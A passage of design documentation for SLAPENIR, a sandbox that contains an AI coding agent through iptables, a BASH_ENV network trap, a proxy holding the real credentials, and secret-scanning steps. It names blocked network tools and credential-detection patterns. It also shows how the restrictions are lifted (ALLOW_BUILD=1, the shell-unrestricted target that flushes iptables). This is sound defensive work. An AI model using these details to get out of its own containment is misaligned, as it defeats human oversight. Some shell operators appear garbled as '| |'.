| `pip3` | `/usr/bin/pip3.real` | `/home/agent/scripts/pip3-wrapper` | `PIP3_ALLOW_BUILD=1` |
| `cargo` | `/usr/bin/cargo.real` | `/home/agent/scripts/cargo-wrapper` | `CARGO_ALLOW_BUILD=1` |

#### 9.3 netctl setuid Binary

The `netctl` binary is compiled as a static setuid root executable during the build:

**Ref:** `agent/Dockerfile:281-285`

```dockerfile
COPY scripts/netctl.c /tmp/netctl.c
RUN gcc -static -o /usr/local/bin/netctl /tmp/netctl.c && \
    chown root:root /usr/local/bin/netctl && \
    chmod 4755 /usr/local/bin/netctl && \
    rm /tmp/netctl.c
```

The static compilation (`gcc -static`) prevents dynamic library injection attacks. The setuid bit (`4755`) allows the `agent` user to execute iptables commands through `netctl`, which escalates to root internally. The source is removed after compilation to prevent inspection/modification.

---

### 10. BASH_ENV Trap

#### 10.1 Loading Mechanism

The BASH_ENV trap is loaded via two mechanisms that together cover all bash invocation patterns:

**Ref:** `agent/Dockerfile:312`

```dockerfile
ENV BASH_ENV=/home/agent/scripts/lib/allow-build-trap.sh
```

| Mechanism | Shells Covered | How It Loads |
| --- | --- | --- |
| `.bashrc` | Interactive shells | `source /home/agent/scripts/lib/allow-build-trap.sh` |
| `BASH_ENV` | Non-interactive shells (`bash -c`) | Bash auto-sources the file specified by `BASH_ENV` |

The `BASH_ENV` variable is critical for covering OpenCode's command execution. When OpenCode runs a bash command, it invokes `bash -c "<command>"`. Non-interactive bash automatically sources the file in `BASH_ENV` before executing the command, installing the DEBUG trap.

#### 10.2 Trap Architecture

**Ref:** `agent/scripts/lib/allow-build-trap.sh:24-68`

```bash
_slapenir_net_auto=0

_slapenir_preexec() {
    local cmd="${BASH_COMMAND:-}"

    if [ "${ALLOW_BUILD:-}" = "1" ]; then
        if [ "$_slapenir_net_auto" = "0" ]; then
            if command -v netctl >/dev/null 2>&1 && ! netctl status >/dev/null 2>&1; then
                netctl enable 2>/dev/null | | true
                _slapenir_net_auto=1
            fi
        fi
        if [ -z "${HTTP_PROXY:-}" ]; then
            export HTTP_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export HTTPS_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export NO_PROXY="localhost,127.0.0.1,proxy,postgres,memgraph,host.docker.internal"
        fi
        return 0
    fi
}

_slapenir_precmd() {
    if [ "$_slapenir_net_auto" = "1" ]; then
        netctl disable 2>/dev/null | | true
        unset HTTP_PROXY HTTPS_PROXY NO_PROXY 2>/dev/null | | true
        _slapenir_net_auto=0
    fi
}

trap '_slapenir_preexec' DEBUG
```

The trap mechanism uses three hooks:

| Hook | Trigger | Action |
| --- | --- | --- |
| `DEBUG` trap | Before every command | Check for `ALLOW_BUILD=1` in environment or `BASH_COMMAND`, enable network if found |
| `PROMPT_COMMAND` | Before shell prompt (interactive) | Disable network, unset proxy vars |
| `EXIT` trap | Shell exit (non-interactive) | Disable network, unset proxy vars |

The `_slapenir_net_auto` flag prevents double-enable/disable cycles. It is set to `1` when the trap enables network and reset to `0` after the precmd disables it. This ensures `netctl disable` is only called when the trap itself enabled the network — not when network was already enabled by another mechanism.

---

### 11. NODE_OPTIONS Monkey-Patch

#### 11.1 The Node.js Fetch Problem

Node.js 18+ provides a built-in `fetch` implementation that does not respect the `HTTP_PROXY` environment variable. This means OpenCode (a Node.js application) could make direct HTTP requests bypassing the proxy — potentially leaking credentials in request bodies.

#### 11.2 Monkey-Patch Implementation

**Ref:** `agent/Dockerfile:313`

```dockerfile
ENV NODE_OPTIONS=--require=/home/agent/scripts/lib/node-fetch-port-fix.js
```

The `NODE_OPTIONS` environment variable injects a `--require` flag into every Node.js process, loading a monkey-patch that replaces `globalThis.fetch`:

**Ref:** `agent/scripts/lib/node-fetch-port-fix.js:1-67`

```javascript
const http = require("node:http");
const https = require("node:https");

function patchedFetch(input, init) {
    const url = typeof input === "string" ? input : input instanceof URL ? input.href : input.url;
    const parsedUrl = new URL(url);
    const isHttps = parsedUrl.protocol === "https:";
    const lib = isHttps ? https : http;
    const method = (init?.method | | (input instanceof Request ? input.method : "GET")).toUpperCase();
    const headers = {};
    if (init?.headers) {
        if (init.headers instanceof Headers) {
            init.headers.forEach((v, k) => { headers[k] = v; });
        } else if (typeof init.headers === "object") {
            Object.entries(init.headers).forEach(([k, v]) => { headers[k] = v; });
        }
    }
    const body = init?.body | | (input instanceof Request ? undefined : undefined);

    return new Promise((resolve, reject) => {
        const opts = {
            hostname: parsedUrl.hostname,
            port: parseInt(parsedUrl.port) | | (isHttps ? 443 : 80),
            path: parsedUrl.pathname + parsedUrl.search,
            method,
            headers,
        };

        const req = lib.request(opts, (res) => {
            const readable = new ReadableStream({
                start(controller) {
                    res.on("data", (chunk) => {
                        controller.enqueue(new Uint8Array(chunk.buffer, chunk.byteOffset, chunk.byteLength));
                    });
                    res.on("end", () => controller.close());
                    res.on("error", (err) => controller.error(err));
                },
                cancel() {
                    res.destroy();
                }
            });

            const response = new Response(readable, {
                status: res.statusCode,
                statusText: res.statusMessage,
                headers: Object.entries(res.headers).map(([k, v]) => [k, Array.isArray(v) ? v.join(", ") : v]),
            });
            Object.defineProperty(response, "url", { value: url });
            resolve(response);
        });
        req.on("error", reject);
        if (body) {
            if (typeof body === "string") req.write(body);
            else if (body instanceof ArrayBuffer | | ArrayBuffer.isView(body)) req.write(Buffer.from(body));
            else if (body.pipe) body.pipe(req);
            else req.write(JSON.stringify(body));
        }
        req.end();
    });
}

globalThis.fetch = patchedFetch;
```

#### 11.3 Why This Patch Is Necessary

The native `node:http` and `node:https` modules **do** respect `HTTP_PROXY` when configured properly (through the agent's iptables NAT redirect). By replacing `globalThis.fetch` with an implementation that uses `http.request` / `https.request` directly, all HTTP traffic from Node.js processes flows through the kernel networking stack where iptables rules apply.

| Scenario | Without Patch | With Patch |
| --- | --- | --- |
| OpenCode fetch to external API | May bypass proxy (undici-based) | Routes through `node:http` → iptables → proxy |
| HTTP request to localhost | Direct (loopback accepted) | Direct (loopback accepted) |
| Fetch during ALLOW_BUILD=1 | May not use proxy vars | Uses `HTTP_PROXY` env vars |

#### 11.4 Injection Scope

The `NODE_OPTIONS=--require` flag applies to **every** Node.js process started in the container, including:

- OpenCode CLI
- MCP servers (memory, knowledge, code-graph-rag)
- npm/yarn scripts
- Any Node.js tool invoked by the agent

---

### 12. Air-Gapped ML Model

#### 12.1 Build-Time Model Download

The embedding model (`Xenova/all-MiniLM-L6-v2`) is downloaded during Docker build and cached for runtime use:

**Ref:** `agent/Dockerfile:227-250`

```dockerfile
RUN mkdir -p /opt/huggingface-cache && \
    export HF_HOME=/opt/huggingface-cache && \
    export TRANSFORMERS_CACHE=/opt/huggingface-cache && \
    cd /usr/local/lib/node_modules/mcp-local-rag && \
    node --experimental-vm-modules -e " \
      import('@huggingface/transformers').then(async ({ pipeline }) => { \
        const embedder = await pipeline('feature-extraction', 'Xenova/all-MiniLM-L6-v2', { \
          cache_dir: process.env.TRANSFORMERS_CACHE, \
          quantized: false \
        }); \
        const test = await embedder('test embedding', { pooling: 'mean', normalize: true }); \
        console.log('Embedding dimensions:', test.dims); \
      }); \
    " && \
    chown -R agent:agent /opt/huggingface-cache
```

#### 12.2 Model Selection Rationale

| Model | Parameters | Embedding Dims | License | Auth Required |
| --- | --- | --- | --- | --- |
| `Xenova/all-MiniLM-L6-v2` | 22M | 384 | Apache 2.0 | No |
| `jina-embeddings-v2-base-code` | 137M | 768 | CC BY-NC 4.0 | Yes (HuggingFace token) |

The `all-MiniLM-L6-v2` model was selected because it does not require authentication and can be downloaded during CI/CD builds without token management. The model provides 384-dimensional embeddings — sufficient for document similarity search in the knowledge server.

#### 12.3 Runtime Cache Population

At container start, the `02-populate-huggingface-cache` script copies the build-time cache to the runtime volume:

**Ref:** `agent/s6-overlay/cont-init.d/02-populate-huggingface-cache:30-49`

```bash
BUILD_CACHE="/opt/huggingface-cache"
RUNTIME_CACHE="/home/agent/.cache/huggingface"
MARKER_FILE="$RUNTIME_CACHE/.cache-populated"

if [ -f "$MARKER_FILE" ]; then
    exit 0
fi

if [ ! -d "$BUILD_CACHE" ]; then
    exit 0
fi

if [ -d "$RUNTIME_CACHE/models--Xenova--all-MiniLM-L6-v2" ]; then
    touch "$MARKER_FILE"
    exit 0
fi

mkdir -p "$RUNTIME_CACHE"
cp -r "$BUILD_CACHE"/* "$RUNTIME_CACHE"/
chown -R agent:agent "$RUNTIME_CACHE"
touch "$MARKER_FILE"
chown agent:agent "$MARKER_FILE"
```

#### 12.4 Offline Enforcement

The `HF_HUB_OFFLINE=1` environment variable is set at the container level:

**Ref:** `agent/Dockerfile:309`

```dockerfile
ENV HF_HUB_OFFLINE=1
```

This flag instructs the HuggingFace `transformers` library to never attempt network downloads. If the model is not found in the local cache, the library raises an error rather than fetching from the internet. Combined with the iptables default-deny policy, this provides defense-in-depth against model download attempts.

#### 12.5 Code-Graph-RAG Vendored Installation

The code-graph-rag tool is installed from vendored source because the upstream repository went private:

**Ref:** `agent/Dockerfile:167-201`

```dockerfile
COPY vendor/ /tmp/code-graph-rag-vendor/
RUN pip install --no-cache-dir --break-system-packages --target /usr/lib/python3.13/site-packages \
    tree-sitter==0.25.2 \
    tree-sitter-c==0.24.1 \
    tree-sitter-cpp==0.23.4 \
    tree-sitter-go==0.25.0 \
    tree-sitter-java==0.23.5 \
    tree-sitter-javascript==0.25.0 \
    tree-sitter-python==0.25.0 \
    tree-sitter-rust==0.24.1 \
    tree-sitter-typescript==0.23.2 \
    neo4j \
    mcp>=1.21.1 \
    pymgclient>=1.4.0 \
    tiktoken>=0.12.0 \
    ...
```

Tree-sitter grammars for 10 languages are installed from PyPI (still publicly available), while the `codebase_rag` Python package itself is copied from the vendored directory. A post-install patch fixes missing tool descriptions:

**Ref:** `agent/Dockerfile:205`

```dockerfile
RUN /home/agent/scripts/patch-codegraph-rag.sh
```

---

### Key Takeaways

1. **Wolfi provides the optimal security-usability balance.** Unlike Alpine (musl-only, incompatible with glibc Node.js binaries) or Debian (large attack surface), Wolfi offers both glibc and musl, Chainguard's daily CVE remediation, and no default root shell — while supporting all required languages and build tools.

2. **s6-overlay provides robust process supervision.** The three-phase boot sequence (cont-init.d → s6-rc.d oneshots → longrun daemons) ensures iptables are configured before any user code runs. The graduated restart policy (restart on recoverable errors, stop on fatal errors) prevents crash loops while maintaining availability.

3. **The permission model is default-deny at every layer.** OpenCode denies all tools by default (`"*": "deny"`), bash commands require explicit allowlisting, network tools (curl, wget, nc) are unconditionally denied, and build tools are only accessible through the `ALLOW_BUILD=1` gate. The iptables default-REJECT provides kernel-level enforcement regardless of application-level configuration.

4. **Three interception mechanisms cover all execution paths.** Binary shadowing catches `$PATH`-resolved commands (e.g., `gradle`), the BASH_ENV DEBUG trap catches pathname-executed scripts (e.g., `./gradlew`), and the NODE_OPTIONS monkey-patch catches Node.js HTTP requests. Together, these ensure no command can bypass the proxy.

5. **The knowledge plane operates fully air-gapped.** All three MCP servers (memory, knowledge, code-graph-rag) function without internet access. The embedding model is pre-cached during build, `HF_HUB_OFFLINE=1` prevents runtime downloads, and code-graph-rag uses the local LLM and internal Memgraph instance. This ensures the agent's knowledge capabilities are not dependent on external services.

6. **The 12-layer Dockerfile maximizes cache efficiency.** Stable layers (base image, system packages) are built first, while volatile layers (application code, model cache) appear later. This minimizes rebuild times during development — a configuration change only rebuilds from Layer 7 onward.

---

# Section 9: End-to-End Workflow

### Overview

This document describes the complete end-to-end operational workflow for SLAPENIR, from initial environment setup through AI-assisted development to secure code extraction and review. It covers the 5-phase Secure Work Process defined in the project README, the `make verify` pre-flight security checks (zero-knowledge verification + LLM security verification), the `slapenir` CLI management commands, the container startup validation sequence, session lifecycle management, code ingestion and extraction pipelines, and the audit trail maintained throughout the process. The security architecture enforcing this workflow is documented in [Section 4: Security Architecture](#section-4-security-architecture). Credential injection and sanitization during API calls are covered in [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention).

---

### 1. Five-Phase Workflow

#### 1.1 Workflow Overview

The SLAPENIR workflow follows a strict 5-phase process designed to ensure code never leaks to the internet, credentials are never exposed to the AI agent, and all changes are fully auditable before merging.

**Ref:** `README.md:1095-1217`

```mermaid
sequenceDiagram
    participant HOST as Host Machine
    participant DC as docker compose
    participant CA as step-ca :9000
    participant PX as proxy :3000
    participant AG as agent container
    participant LLM as llama-server :8080
    participant MG as memgraph :7687

    rect rgb(230, 240, 255)
        Note over HOST,LLM: Phase 1: Preparation Host
        HOST->>HOST: git clone repo
        HOST->>HOST: export tickets to markdown
        HOST->>HOST: git stash (clean state)
        HOST->>LLM: llama-server --host 0.0.0.0 --port 8080
    end

    rect rgb(230, 255, 230)
        Note over HOST,AG: Phase 2: Environment Setup
        HOST->>DC: make up
        DC->>CA: Start step-ca
        CA-->>CA: Generate root + intermediate CA
        DC->>PX: Start proxy (depends_on: step-ca healthy)
        PX->>CA: step ca certificate proxy.slapenir.local
        DC->>AG: Start agent (depends_on: proxy healthy)
        AG->>AG: s6-overlay boot (cont-init.d → s6-rc.d → longrun)
        HOST->>AG: make copy-in REPO=... TICKETS=...
        HOST->>HOST: make verify (pre-flight checks)
    end

    rect rgb(255, 240, 230)
        Note over AG,LLM: Phase 3: AI Work Inside Container
        HOST->>AG: make shell
        AG->>AG: cgr start (index repo in Memgraph)
        AG->>AG: git checkout -b fix/TICKET-123
        AG->>AG: opencode (start AI agent session)
        AG->>LLM: Code generation requests
        AG->>PX: API calls (if ALLOW_BUILD=1)
        AG->>MG: Code graph queries
    end

    rect rgb(255, 230, 255)
        Note over HOST,AG: Phase 4: Extraction and Review
        AG->>AG: git diff + git log (review changes)
        AG->>AG: grep -rnE credential patterns (secret scan)
        AG->>HOST: make copy-out-safe REPO=...
        HOST->>HOST: gitleaks detect --source=.
        HOST->>HOST: git diff HEAD (review)
        HOST->>HOST: git push origin fix/TICKET-123
    end

    rect rgb(240, 240, 240)
        Note over HOST,AG: Phase 5: Cleanup
        HOST->>AG: make session-reset
        HOST->>DC: make down (or repeat Phase 3 for next ticket)
    end
```

---

### 2. Phase 1: Preparation

#### 2.1 Host-Side Prerequisites

**Ref:** `README.md:1099-1114`

```bash
git clone https://github.com/org/repo.git ~/Projects/repo
mkdir -p ~/Projects/tickets
cd ~/Projects/repo && git stash
llama-server --host 0.0.0.0 --port 8080 --model ~/models/YourModel.gguf
```

| Step | Purpose |
| --- | --- |
| Clone repository | Create working copy on host |
| Export tickets | Provide structured context for AI agent |
| `git stash` | Ensure clean working state for diff accuracy |
| Start llama-server | Local LLM inference for air-gapped AI |

The llama-server binds to `0.0.0.0:8080`, making it accessible from the Docker network via `host.docker.internal:8080`. This is the only external service the agent needs — all API calls, credential injection, and traffic inspection are handled by the proxy (see [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention) for the credential injection pipeline).

---

### 3. Phase 2: Environment Setup

#### 3.1 Service Startup

**Ref:** `Makefile:29-30`

```makefile
up:
    docker-compose up -d
```

The `docker-compose up` starts services in dependency order:

| Start Order | Service | Dependency | Purpose |
| --- | --- | --- | --- |
| 1 | step-ca | — | Certificate authority |
| 2 | proxy | step-ca (healthy) | Traffic proxy + credential injection |
| 3 | agent | proxy (healthy) | AI agent sandbox |
| 4 | memgraph | — | Graph database for Code-Graph-RAG |
| 5 | prometheus | — (optional, `--profile logs`) | Metrics collection |
| 6 | grafana | — (optional, `--profile logs`) | Metrics dashboard |

With the `--profile logs` flag (`make up-logs`), Prometheus and Grafana are also started:

**Ref:** `Makefile:32-33`

```makefile
up-logs:
    docker-compose --profile logs up -d
```

#### 3.2 Container Initialization Sequence

When the agent container starts, s6-overlay executes its three-phase boot sequence (detailed in WP-08 Section 3). The iptables chain construction and traffic enforcement are covered in [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive):

1. **cont-init.d** (root): Fix permissions, build iptables chain, populate ML model cache
2. **s6-rc.d oneshots**: Generate dummy credentials, init git/SSH/GPG, verify connectivity
3. **s6-rc.d longrun**: Start agent process, metrics exporter, runtime monitor

#### 3.3 Code Ingestion

**Ref:** `Makefile:108-122`

```makefile
copy-in:
ifndef REPO
    $(error REPO is required - usage: make copy-in REPO=/path/to/repo TICKETS=/path/to/tickets)
endif
    docker-compose exec -T agent mkdir -p /home/agent/workspace/$(notdir $(REPO))
    docker cp "$(REPO)/." slapenir-agent:/home/agent/workspace/$(notdir $(REPO))/
    docker-compose exec -T -u root agent chown -R 1000:1000 /home/agent/workspace/$(notdir $(REPO))
ifdef TICKETS
    docker-compose exec -T agent mkdir -p /home/agent/workspace/tickets
    docker cp "$(TICKETS)/." slapenir-agent:/home/agent/workspace/tickets/
    docker-compose exec -T -u root agent chown -R 1000:1000 /home/agent/workspace/tickets
endif
```

The `copy-in` target uses `docker cp` to transfer the repository and ticket files into the container's workspace. The `chown -R 1000:1000` ensures the `agent` user (UID 1000) owns all files — necessary because `docker cp` creates files owned by root.

#### 3.4 Pre-Flight Security Verification

**Ref:** `Makefile:259-263`

```makefile
verify:
    @echo "Running pre-flight security verification..."
    @./scripts/verify-zero-knowledge.sh
    @./scripts/verify-local-llm-security.sh
    @echo "Pre-flight verification complete"
```

The `make verify` target runs two comprehensive verification scripts on the host:

| Script | Tests | Location |
| --- | --- | --- |
| `verify-zero-knowledge.sh` | 7 test sections, ~25 checks | Host-side |
| `verify-local-llm-security.sh` | 8 test sections, ~30 checks | Host-side |

---

### 4. `make verify` Pre-Flight Checks

#### 4.1 verify-zero-knowledge.sh

This script verifies the zero-knowledge architecture by comparing credentials across containers:

**Ref:** `scripts/verify-zero-knowledge.sh:131-170`

```bash
for CRED in "${CREDENTIALS[@]}"; do
    AGENT_VALUE=$(docker exec slapenir-agent env | grep "^${CRED}=" | cut -d'=' -f2- | | echo "")
    
    if [ -z "$AGENT_VALUE" ]; then
        check_warn "${CRED} not found in agent (optional)"
        continue
    fi
    
    if [[ "$AGENT_VALUE" =~ ^DUMMY_ ]] | | [[ "$AGENT_VALUE" == "DUMMY_"* ]]; then
        check_pass "${CRED}=${AGENT_VALUE} (dummy credential)"
    else
        if [[ ${#AGENT_VALUE} -gt 10 ]] && [[ ! "$AGENT_VALUE" =~ ^DUMMY ]]; then
            check_fail "${CRED}=${AGENT_VALUE:0:10}... (REAL CREDENTIAL DETECTED!)"
            AGENT_HAS_REAL_CREDS=1
        fi
    fi
done
```

#### Test Sections

| Section | Checks | Failure Severity |
| --- | --- | --- |
| Pre-flight | Docker running, containers up | Fatal (exit) |
| Test 1: Agent credentials | All credentials start with `DUMMY_` | Critical |
| Test 2: Proxy credentials | At least one real credential present | Warning |
| Test 3: Proxy configuration | `HTTP_PROXY=http://proxy:3000` set correctly | Error |
| Test 4: Network connectivity | Agent→proxy health, proxy self-test | Error |
| Test 5: Credential isolation | Agent and proxy have **different** credentials | Critical |
| Test 6: Environment files | `.env.proxy` and `.env.agent` exist | Warning |
| Test 7: Best practices | `.gitignore` excludes secrets, non-root users | Warning |

#### Credential Isolation Test

The most critical check compares a specific credential between containers:

**Ref:** `scripts/verify-zero-knowledge.sh:253-264`

```bash
OPENAI_AGENT=$(docker exec slapenir-agent env | grep "^OPENAI_API_KEY=" | cut -d'=' -f2- | | echo "")
OPENAI_PROXY=$(docker exec slapenir-proxy env | grep "^OPENAI_API_KEY=" | cut -d'=' -f2- | | echo "")

if [ -n "$OPENAI_AGENT" ] && [ -n "$OPENAI_PROXY" ]; then
    if [ "$OPENAI_AGENT" = "$OPENAI_PROXY" ]; then
        check_fail "Agent and Proxy have SAME OPENAI_API_KEY (CRITICAL SECURITY ISSUE!)"
    else
        check_pass "Agent and Proxy have DIFFERENT OPENAI_API_KEY (correct)"
    fi
fi
```

If the agent has the same API key as the proxy, the zero-knowledge architecture is broken and the agent could exfiltrate credentials.

#### 4.2 verify-local-llm-security.sh

This script verifies that the local LLM configuration is secure and that the agent routes inference through the correct pathway:

| Section | Purpose |
| --- | --- |
| llama-server status | Verify local LLM is running and healthy |
| Agent network config | Verify `HTTP_PROXY` points to proxy |
| Agent→LLM connectivity | Verify agent can reach `host.docker.internal:8080` |
| Network isolation | Verify external sites are blocked from agent |
| Traffic enforcement | Verify iptables TRAFFIC_ENFORCE chain is active |
| Proxy bypass | Verify no bypass configuration exists |
| OpenCode configuration | Verify model and endpoint are correctly configured |
| Docker network isolation | Verify Docker network segmentation |

#### 4.3 In-Container Startup Validation

In addition to host-side verification, the agent container runs its own startup validation as an s6-rc.d oneshot service:

**Ref:** `agent/scripts/startup-validation.sh:51-86`

```bash
test_security() {
    if env | grep -E "^[A-Z_]*KEY.*=sk-proj-" > /dev/null 2>&1; then
        test_fail "Real OpenAI credential detected in environment"
    fi
    if env | grep -E "^[A-Z_]*KEY.*=sk-ant-" > /dev/null 2>&1; then
        test_fail "Real Anthropic credential detected in environment"
    fi
    if env | grep -E "^[A-Z_]*KEY.*=AIza" > /dev/null 2>&1; then
        test_fail "Real Gemini credential detected in environment"
    fi
    if env | grep -E "^[A-Z_]*TOKEN.*=ghp_" > /dev/null 2>&1; then
        test_fail "Real GitHub credential detected in environment"
    fi
}
```

The startup validation covers 8 test categories:

| Category | Tests |
| --- | --- |
| Security | No real credential patterns (`sk-proj-`, `sk-ant-`, `ghp_`) |
| Environment | Proxy configuration, dummy credentials present |
| Connectivity | Proxy health endpoint reachable |
| Local LLM | `host.docker.internal:8080` accessible |
| Traffic enforcement | iptables chain exists, 10+ rules, DROP present, LOG present |
| Network isolation | External sites (google.com, github.com, npmjs.org, pypi.org) blocked |
| Allowed connectivity | Proxy, Docker network, localhost accessible |
| Build tool security | Wrapper scripts safe, no credential access, no iptables bypass |

---

### 5. Phase 3: AI Work (Inside Container)

#### 5.1 Agent Shell Access

**Ref:** `Makefile:47-55`

```makefile
shell:
    @echo "🔒 Secure shell - builds and internet blocked by default"
    @exec docker-compose exec \
        -u agent \
        $(or $(SERVICE),agent) /bin/bash 2>/dev/null | | \
    exec docker-compose exec -u agent $(or $(SERVICE),agent) /bin/sh
```

The `make shell` target opens an interactive bash shell in the agent container as the `agent` user. The shell is in LOCKED mode by default — iptables blocks all external traffic, build tools are blocked by wrappers, and the BASH_ENV DEBUG trap is active.

#### 5.2 Shell Modes

| Command | Network | iptables | Proxy Env | .bashrc | Use Case |
| --- | --- | --- | --- | --- | --- |
| `make shell` | LOCKED | TRAFFIC_ENFORCE active | Set | Loaded | AI work, code review |
| `make shell-unrestricted` | OPEN | Flushed | Cleared | Loaded | Debugging, builds |
| `make shell-raw` | OPEN | Flushed | Cleared | Skipped (`--norc`) | Raw debugging |

**Ref:** `Makefile:57-80`

```makefile
shell-unrestricted:
    @docker-compose exec -T -u root agent bash -c 'iptables -F TRAFFIC_ENFORCE 2>/dev/null; iptables -X TRAFFIC_ENFORCE 2>/dev/null; ...' | | true
    @exec docker-compose exec \
        -u agent \
        -e ALLOW_BUILD=1 \
        -e HTTP_PROXY= -e HTTPS_PROXY= ...
        agent /bin/bash
```

`shell-unrestricted` flushes all iptables rules as root, then opens a bash shell as `agent` with all build overrides enabled and proxy environment variables cleared. This provides full internet access for debugging.

#### 5.3 Code Indexing

**Ref:** `Makefile:247-250`

```makefile
index:
    docker-compose exec -T agent bash -c 'cgr start --repo-path /home/agent/workspace/$(notdir $(or $(REPO),.)) --update-graph --clean'
```

The `make index` target runs Code-Graph-RAG to parse the repository source files into an AST graph stored in Memgraph. The `--clean` flag clears previous index data, ensuring a fresh build.

#### 5.4 OpenCode Session

The developer starts an OpenCode session inside the container:

**Ref:** `README.md:1145-1160`

```bash
git checkout -b fix/TICKET-123 2>/dev/null | | git checkout fix/TICKET-123
opencode
```

OpenCode loads the `opencode.json` configuration (WP-08 Section 6), connects to the local LLM at `host.docker.internal:8080`, and starts three MCP servers (memory, knowledge, code-graph-rag). The agent operates under the default-deny permission model, with build tools accessible only through `ALLOW_BUILD=1`.

#### 5.5 Build Cache Seeding

Host build caches can be copied into the container to avoid downloading dependencies through the proxy:

**Ref:** `Makefile:221-245`

```makefile
copy-cache:
    @$(COPY_CACHE_GRADLE)
    @$(COPY_CACHE_NPM)
    @$(COPY_CACHE_PIP)
    @$(COPY_CACHE_YARN)
    @$(COPY_CACHE_MAVEN)
```

Supported cache types: `gradle`, `npm`, `pip`, `yarn`, `maven`, or `all`. This is particularly valuable for Gradle and Maven projects with large dependency trees, as it eliminates the need for the `ALLOW_BUILD=1` network path during initial build.

---

### 6. Phase 4: Extraction and Review

#### 6.1 In-Container Review

Before extracting code, the developer reviews changes inside the container:

**Ref:** `README.md:1165-1171`

```bash
git diff && git log --oneline
grep -rnE "(sk- | ghp_ | AKIA | -----BEGIN)" --include="*.py" --include="*.ts" --include="*.js" --include="*.go" --include="*.rs" .
```

The `grep` command scans for common credential patterns that may have been accidentally injected by the AI agent.

#### 6.2 Safe Extraction Pipeline

```mermaid
flowchart TD
    REVIEW["In-container review<br/>git diff + git log"] --> SCAN["Secret pattern scan<br/>grep -rnE credential patterns"]
    SCAN --> BACKUP["Host-side backup<br/>cp -r repo repo.backup.TIMESTAMP"]
    BACKUP --> INTEGRITY["Integrity check<br/>git status --porcelain<br/>git diff --stat"]
    INTEGRITY --> COPY["docker cp<br/>container → host"]
    COPY --> HOSTSCAN["Host-side verification<br/>gitleaks detect<br/>trufflehog filesystem"]
    HOSTSCAN --> DIFF["Review diff<br/>git diff HEAD"]
    DIFF --> DECISION{"Accept changes?"}
    DECISION --> | Yes | PUSH["git push origin branch"]
    DECISION --> | No | RETRY["make copy-in<br/>Repeat from Phase 3"]
    
    style SCAN fill:#e74c3c,color:#fff
    style HOSTSCAN fill:#e74c3c,color:#fff
    style DECISION fill:#f39c12,color:#fff
    style PUSH fill:#27ae60,color:#fff
    style RETRY fill:#3498db,color:#fff
```

#### 6.3 copy-out-safe

**Ref:** `Makefile:134-141`

```makefile
copy-out-safe:
ifndef REPO
    $(error REPO is required)
endif
    @cp -r "$(REPO)" "$(REPO).backup.$(shell date +%Y%m%d%H%M%S)"
    @$(MAKE) copy-out REPO=$(REPO)
```

The `copy-out-safe` target creates a timestamped backup of the host repository before overwriting it with the container's version. This prevents data loss if the transfer fails mid-way or if the container's version is corrupted.

#### 6.4 copy-out

**Ref:** `Makefile:124-132`

```makefile
copy-out:
    @docker-compose exec -T -u agent agent bash -c 'cd /home/agent/workspace/$(notdir $(REPO)) && echo "=== Changed files ===" && git status --porcelain && echo "=== Diff stat ===" && git diff --stat'
    docker cp slapenir-agent:/home/agent/workspace/$(notdir $(REPO)) "$(dir $(REPO))"
```

The `copy-out` target first shows a diff summary (changed files, diff stats) for human review, then copies the workspace contents back to the host using `docker cp`.

#### 6.5 Host-Side Verification

**Ref:** `README.md:1176-1183`

```bash
cd /path/to/repo
gitleaks detect --source=. --no-git
git diff HEAD
git log --oneline
git push origin fix/TICKET-123
```

The host-side verification includes:

| Check | Tool | Purpose |
| --- | --- | --- |
| Secret scanning | `gitleaks` or `trufflehog` | Detect accidentally injected credentials |
| Diff review | `git diff HEAD` | Review all changes before pushing |
| Commit history | `git log --oneline` | Verify commit quality and messages |
| Push | `git push` | Publish to remote (reject if issues found) |

---

### 7. Phase 5: Cleanup

#### 7.1 Session Reset

**Ref:** `Makefile:252-257`

```makefile
session-reset:
    @docker-compose exec -T agent bash -c 'rm -rf /home/agent/workspace/*'
    docker-compose exec -T agent bash -c 'rm -rf /home/agent/.local/share/mcp-memory/*'
    docker-compose exec -T agent bash -c 'rm -rf /home/agent/.local/share/mcp-knowledge/*'
```

The `session-reset` target clears three data stores:

| Data Store | Path | Cleared |
| --- | --- | --- |
| Workspace | `/home/agent/workspace/*` | All source code and tickets |
| MCP Memory | `/home/agent/.local/share/mcp-memory/*` | Conversational facts (SQLite) |
| MCP Knowledge | `/home/agent/.local/share/mcp-knowledge/*` | Document embeddings (LanceDB) |

This prevents state leakage between tickets — the AI agent starts each session with no memory of previous work.

#### 7.2 Session Lifecycle State Diagram

```mermaid
stateDiagram-v2
    [*] --> Idle: System off
    
    Idle --> Starting: make up
    Starting --> Bootstrap: docker compose up
    Bootstrap --> Verifying: make verify
    Verifying --> Ready: All checks pass
    Verifying --> Error: Check fails
    
    Ready --> Ingesting: make copy-in
    Ingesting --> Indexing: make index
    Indexing --> Working: opencode
    
    Working --> Building: ALLOW_BUILD=1
    Building --> Working: Build complete
    Working --> Reviewing: Exit OpenCode
    
    Reviewing --> Extracting: make copy-out-safe
    Extracting --> Scanning: gitleaks
    Scanning --> Pushing: No secrets found
    Scanning --> Failed: Secrets detected
    Failed --> Working: Fix and retry
    
    Pushing --> Working: Next ticket Phase 3
    Pushing --> Cleanup: All tickets done
    Working --> Cleanup: Session reset
    Cleanup --> Ready: make session-reset
    Cleanup --> Idle: make down
    
    Error --> Idle: Fix and retry
```

---

### 8. `slapenir` CLI Commands

#### 8.1 Command Reference

The root-level `slapenir` script provides a simplified interface for common operations:

**Ref:** `slapenir:247-275`

```bash
case "${1:-}" in
    start)  start "$@" ;;
    stop)   stop ;;
    restart) restart ;;
    status) status ;;
    logs)   logs "${2:-}" ;;
    shell)  shell "${2:-}" ;;
    clean)  clean ;;
    *)      usage ;;
esac
```

| Command | Equivalent | Description |
| --- | --- | --- |
| `./slapenir start` | `docker-compose up -d --build` | Start all services, build if needed |
| `./slapenir start --logs` | `docker-compose --profile logs up -d --build` | Start with Prometheus + Grafana |
| `./slapenir stop` | `docker-compose down` | Stop all services |
| `./slapenir restart` | stop + start | Restart all services |
| `./slapenir status` | `docker-compose ps` + health checks | Show service health |
| `./slapenir logs [svc]` | `docker-compose logs -f [svc]` | Follow service logs |
